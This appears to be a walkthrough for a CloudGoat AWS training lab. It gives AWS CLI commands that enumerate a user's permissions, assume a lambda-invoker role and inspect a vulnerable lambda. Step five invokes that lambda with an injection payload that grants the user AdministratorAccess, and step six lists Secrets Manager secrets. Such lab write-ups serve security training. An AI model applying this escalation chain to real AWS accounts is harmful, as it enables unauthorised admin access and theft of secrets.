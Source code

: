 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.
    aws --profile bilbo --region us-east-1 sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]
    # This command will list all of your permissions.
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```

2. List all roles, assume a role for privesc.

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 
    aws --profile bilbo --region us-east-1 iam list-roles | grep cg-
    # This command will list all policies for the target role
    aws --profile bilbo --region us-east-1 list-attached-user-policies --user-name [cg-target-user]
    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]

    ```

3. List lambdas to identify the target (vulnerable) lambda.

    ```bash
    # This command will show you all lambda functions. The function belonging to cloudgoat (the name should start with "cg-")
    # can apply a predefined set of aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```
4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function. Read over that source code to discover a vulnerability. 
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```
5. Invoke the role applier lambda function, passing the name of the bilbo user and the injection payload. 

    ```bash
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt
    ```
6. Now that Bilbo is an admin, use credentials for that user to list secrets from secretsmanager. 

    ```bash
    # This command will list all the secrets in secretsmanager
    aws --profile bilbo --region us-east-1 secretsmanager list-secrets
    ```
